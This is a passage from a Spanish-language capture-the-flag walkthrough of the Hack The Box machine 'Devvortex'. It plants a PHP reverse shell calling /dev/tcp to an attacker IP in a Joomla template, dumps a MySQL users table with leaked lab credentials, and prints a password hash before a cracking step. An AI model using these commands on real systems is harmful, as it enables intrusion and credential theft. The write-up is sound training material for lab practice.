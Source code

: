 Y vamos a cambiar el contenido del error.php por el siguiente 

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.15/443 0>&1'");
?>
```

![[Devvortex21.png]]
Y ahora mientras estamos en escucha con [[nc -nlvp 443]] vamos entrar al siguiente link para que se ejecute el *error.php* http://dev.devvortex.htb/templates/cassiopeia/error.php
![[Devvortex22.png]]
Obtuvimos acceso como www-data

------
# [[Tratamiento de la TTY]]

--------
# Escalada de privilegios al usuario logan

###  Conexion a [[mysql]]
Nos conectamos a la base de datos [[mysql]] con las credenciales que habiamos obtenido antes con los payloads de joomla
lewis:P4ntherg0t1n5r3c0n##

```
mysql -u lewis -p"P4ntherg0t1n5r3c0n##" -h localhost -P 3306
```

### Para dumpear los datos

```shell
show databases;
use joomla;
show tables;
select * from sd4fg_users;
```

![[Devvortex26.png]]

![[Devvortex27.png]]
![[Devvortex28.png]]

![[Devvortex24.png]]

Y dumpeamos los datos `logan:$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12`

### Crackeamos contraseña con [[john]]
